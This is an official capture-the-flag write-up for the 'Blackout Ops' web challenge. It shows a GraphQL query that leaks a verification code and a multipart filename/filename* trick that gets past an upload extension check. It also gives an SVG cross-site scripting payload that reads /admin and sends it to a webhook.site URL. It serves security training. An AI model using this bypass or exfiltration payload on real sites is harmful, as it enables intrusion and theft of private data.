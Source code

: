 <img src="../../assets/banner.png" style="zoom: 80%;" align=center />

<img src="../../assets/htb.png" style="zoom: 80%;" align='left' /><font size="5">Blackout Ops</font>

  5<sup>th</sup> 5 2025

  Prepared By: xclow3n

  Challenge Author: xclow3n

  Difficulty: <font color=green>Easy</font>

  Classification: Official





## Synopsis

*Blackout Ops* is an entry‑level web challenge that demonstrates:

* Discovering undocumented GraphQL fields
* Bypassing multipart form validation via an OpenResty/Busboy parsing quirk
* Exploiting an SVG‑based XSS to lure an admin bot

The ultimate goal is to trick the admin bot into visiting our malicious payload and leak the contents of the `/admin` page.

## Skills Required

* Familiarity with JavaScript and HTTP requests
* Basic understanding of Cross‑Site Scripting (XSS)

## Skills Demonstrated

* Crafting and sending custom GraphQL queries
* Understanding multipart form boundary quirks to bypass file‑type restrictions
* Embedding and triggering XSS via SVG files

---

## Walkthrough

### 1. Register and Log In

Upon first visiting the application, we are presented with a standard user dashboard.
We can register a new account, but the email address must end in `@blackouts.htb`:

![Registration page](./assets/login.png)

After registering and logging in, we see:

![Unverified dashboard](./assets/dashboard.png)

All account actions require verification. A code is sent to our email, which we cannot access.

### 2. Enumerate the Verification Code via GraphQL

Inspecting the GraphQL schema in `graphql/schema.js`, we find:

```graphql
  type User {
    id: ID!
    email: String!
    role: String!
    inviteCode: String   # <-- the verification token
    verified: Boolean!
  }
```

The `inviteCode` field holds our verification code. We can craft a simple GraphQL query to fetch it:

```http
POST /graphql HTTP/1.1
Host: blackouts.htb
Content-Type: application/json

{ "query": "{ user(email: \"attacker@blackouts.htb\") { inviteCode } }" }
```

This returns our `inviteCode`, which we then submit to the verification endpoint. Our account becomes verified.

### 3. Analyze the Incident‑Report and Upload Paths

Navigating the source, two relevant routes stand out:

* **Submitting an incident report** (`submitIncidentReport` resolver)

  * Validates `evidenceUrl` starts with `http://` or `https://`
  * Inserts the report and then asynchronously calls a corporate bot to visit our URL using admin credentials.

* **File upload endpoint** (`POST /upload` in `routes/pages.js`)

  * Uses Busboy and OpenResty to parse multipart files.
  * Naïvely trusts the file extension in the `Content-Disposition` header to whitelist only `.jpg`, `.jpeg`, and `.png`.

After uploading, the filename is recorded in the database, but there's no additional server‑side validation of the file contents.

### 4. Bypass Multipart Validation and Upload a Malicious SVG

Researching Busboy and OpenResty multipart parsing, we discover a quirk: by adding both a normal `filename` and an extended `filename*` parameter, the server’s Lua validator can be tricked. For example:

```http
Content-Disposition: form-data; name="file";
  filename="image.png";
  filename*=UTF-8''attack.svg
```

This passes the extension check (seeing `.png`) while the actual file is saved as an SVG.

We craft an SVG payload that executes JavaScript when opened:

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <script type="text/javascript">
    // Fetch the admin dashboard and exfiltrate via webhook
    fetch('/admin')
      .then(res => res.text())
      .then(html =>
        fetch('https://webhook.site/your-unique-id', {
          method: 'POST',
          body: btoa(html)
        })
      );
  </script>
</svg>
```

Upload this SVG using the multipart header trick.


Finally, we submit an incident report that points to our uploaded SVG’s URL and get the flag

